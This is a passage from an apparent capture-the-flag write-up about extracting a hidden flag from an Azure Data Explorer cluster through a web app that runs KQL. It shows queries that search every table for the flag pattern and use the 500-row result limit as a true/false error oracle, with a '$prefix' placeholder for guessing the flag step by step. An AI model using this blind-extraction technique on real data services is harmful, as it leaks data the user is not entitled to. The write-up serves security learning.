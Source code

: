 From this I assume that we are getting actual output here and it's not just running validation as a web application, it's actually submitting them to an ADX-cluster 🥳.

## Finding the flag

Now, my idea was very simple because I am after all a very simple 👨‍🦲. I know that if I return more than 500 results, the query will fail. So I created a dummy data set with 501 values using the following KQL code:

```kql
// Step 1: Define the dataset with 500 rows
let myData = range num from 1 to 501 step 1; // This will be a dataset of 500 entries
```

> :memo: **Note:** I later realized I could have just used the `StormEvents`-table to output more than 500 results. I was very focused on the number 500, which is why I decided to do that in order to make sure I was outputting exactly 500 results. At some point I went back and decided to make the dataset 501, so I could do `take 501` so yeah. Sometimes it's just hard to make 🧠 do 💡.

The query to check for the flag value is the following:

```kql
let searchResults = search * 
    | where * startswith 'EPT{'
    | where * endswith '}'
    | summarize SearchCount = count();
```

To briefly explain the query above, search allows me to search all tables in the database for a specific string. The same also works for the `where`-clause. Using `startswith` and `endswith` I can filter out the results that start with the string `EPT{` and ends with `}`. During testing I didn't have the `endswith` clause in the beginning and I got a lot of false positives that way. I also at some point used the `contains` clause, but that also gave me a lot of false positives.
My idea to output data was that if I got a result, I could use an `iff`-clause combined with a variable set to 500. Then I could query `myData` and use the `take`-clause with the variable to either output 500 or 501 results. This way, any time I got a hit I would return 501 results and trigger the policy setting.

```kql
let initialCount = 500;
let totalCount = initialCount + iff(toscalar(searchResults) > 0, 1, 0);
myData
| take totalCount
```

For some light education style 🧠 food, [`iff`](https://learn.microsoft.com/en-us/kusto/query/iff-function?view=microsoft-fabric) is actually pretty neat and very good to know. It takes three inputs in it's syntax `iff(if, then, else)` and it works like you would expect - if the `if` part is true it returns the `then` value, if not it returns `else`.
In our case, the `searchResults` should at this point contain the count `1` or more. So if the statement that `searchResults` > 0 is true, it returns 1. 

Put together, the full query looks like this:

```kql
let myData = range num from 1 to 501 step 1; // This will be a dataset of 500 entries
let searchResults = search * 
    | where * startswith '$prefix'
    | where * endswith '}'
    | summarize SearchCount = count();
let initialCount = 500;
let totalCount = initialCount + iff(toscalar(searchResults) > 0, 1, 0);
myData
| take totalCount
```
